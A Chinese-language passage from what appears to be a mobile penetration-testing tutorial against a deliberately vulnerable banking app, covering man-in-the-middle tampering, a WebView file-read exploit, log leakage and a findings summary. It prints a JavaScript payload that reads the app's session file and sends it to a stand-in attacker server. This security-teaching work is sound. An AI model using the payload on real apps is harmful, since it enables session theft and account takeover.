 3.  **漏洞利用路径二：不安全的网络通信**
    *   **背景**：静态分析发现证书验证被禁用。
    *   **利用**：
        *   在 MobSF 的动态分析界面操作 VulnBank 应用，进行登录、查看账户等操作。
        *   观察 MobSF 的 **"Network Logs"** 面板。可以看到所有登录和交易请求都发送到了 `http://api.vulnbank.com`（使用 HTTP，而不是 HTTPS）。**（高危）**
        *   **中间人攻击**：由于应用还禁用了证书验证，攻击者可以轻易地进行中间人攻击，解密和篡改所有的 HTTPS 流量（如果存在的话）。我们使用 Burp Suite 可以轻松截获并修改请求，例如在转账时修改收款人和金额。

4.  **漏洞利用路径三：WebView 漏洞利用**
    *   **背景**：静态分析发现不安全的 WebView 配置。
    *   **利用**：
        *   在应用中找到一个使用 WebView 加载内容的界面（例如"用户协议"或"帮助"页面）。
        *   由于 `setAllowFileAccess(true)`，我们可以尝试通过 WebView 读取设备的本地文件。我们通过 ADB 将一个包含恶意 JavaScript 的 HTML 文件推到设备上。
        *   恶意 HTML 内容：
          ```html
          <script>
          function readFile() {
            // 尝试通过 file:// 协议读取敏感文件
            var xhr = new XMLHttpRequest();
            xhr.open('GET', 'file:///data/data/com.vulnbank.app/shared_prefs/user_session.xml', false);
            xhr.send();
            // 将读取到的内容发送到攻击者控制的服务器
            var img = new Image();
            img.src = 'http://attacker-server.com/steal?data=' + btoa(xhr.responseText);
          }
          readFile();
          </script>
          ```
        *   我们通过 ADB 命令让 WebView 加载这个本地文件。由于配置不当，JavaScript 成功执行，并尝试读取应用私有数据，然后外泄。这证实了 **WebView 文件泄露漏洞**。

5.  **动态分析的其他发现**
    *   **日志泄露**：在 MobSF 的 **"Logcat"** 面板中，我们发现在登录成功后，应用打印了包含用户 ID 和会话令牌的日志。任何拥有日志读取权限的恶意应用都可以窃取这些信息。**（敏感信息泄露）**

---

### 阶段三：报告与总结

**渗透测试报告摘要**

*   **漏洞列表**：
    1.  **严重**：不安全的 Content Provider 导致 SQL 注入和用户数据泄露。
    2.  **严重**：禁用 SSL 证书验证，导致通信易受中间人攻击。
    3.  **高危**：使用明文 HTTP 协议传输所有敏感数据。
    4.  **高危**：不安全的 WebView 配置导致本地文件泄露。
    5.  **中危**：生产环境应用开启调试模式。
    6.  **中危**：Logcat 中泄露敏感会话信息。
    7.  **信息**：存在硬编码的静态 API 密钥。

*   **攻击情景**：
    > 一个恶意应用安装在用户手机上，无需任何权限即可通过暴露的 Content Provider 窃取 VulnBank 的所有用户数据。同时，攻击者在与用户同一网络下（如公共 Wi-Fi）可以轻松发起中间人攻击，窃取登录凭据、篡改交易，甚至通过 WebView 漏洞读取用户手机上的其他敏感文件。

